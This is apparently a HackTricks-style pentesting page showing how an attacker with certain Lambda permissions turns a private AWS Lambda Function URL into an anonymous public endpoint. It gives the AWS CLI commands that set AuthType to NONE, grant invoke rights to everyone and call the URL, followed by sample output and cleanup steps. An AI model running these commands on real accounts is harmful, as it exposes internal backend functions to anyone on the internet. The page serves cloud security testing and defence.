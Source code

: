 # AWS - Lambda Function URL Public Exposure (AuthType NONE + Public Invoke Policy)

Turn a private Lambda Function URL into a public unauthenticated endpoint by switching the Function URL AuthType to NONE and attaching a resource-based policy that grants lambda:InvokeFunctionUrl to everyone. This enables anonymous invocation of internal functions and can expose sensitive backend operations.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Region: us-east-1

### Steps
1) Ensure the function has a Function URL (defaults to AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Switch the URL to public (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Add a resource-based policy statement to allow unauthenticated principals:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Retrieve the URL and invoke without credentials:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Impact
- The Lambda function becomes anonymously accessible over the internet.

### Example output (unauthenticated 200)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### クリーンアップ
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

